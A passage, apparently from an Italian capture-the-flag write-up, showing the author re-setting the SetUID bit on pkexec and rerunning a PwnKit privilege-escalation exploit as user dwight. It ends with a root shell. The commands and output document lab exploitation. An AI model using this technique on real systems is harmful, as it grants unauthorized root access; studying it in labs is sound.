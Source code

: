 
### Re-SetUID pwnkit

Come root, cambierò pkexec con le autorizzazioni SetUID:

```bash
[root@paper dwight]#  chmod 4755 /usr/bin/pkexec
[root@paper dwight]# ls -l /usr/bin/pkexec
-rwsr-xr-x. 1 root root 29816 May 11  2019 /usr/bin/pkexec
```

Tornato nella shell come Dwight, proverò di nuovo l'exploit:

```bash
[dwight@paper ~]$ ./exploit
Current User before execute exploit
hacker@victim$whoami: dwight
Exploit written by @luijait (0x6c75696a616974)mkdir: cannot create directory ‘GCONV_PATH=.’: File exists
mkdir: cannot create directory ‘tmp’: File exists
sh: tmp/b64load.c: Permission denied
/bin/ld: cannot open output file tmp/pwnkit.so: Permission denied
collect2: error: ld returned 1 exit status
sh: tmp/gconv-modules: Permission denied

[+] Enjoy your root if exploit was completed succesfully
[root@paper dwight]# id
uid=0(root) gid=0(root) groups=0(root),1004(dwight)
```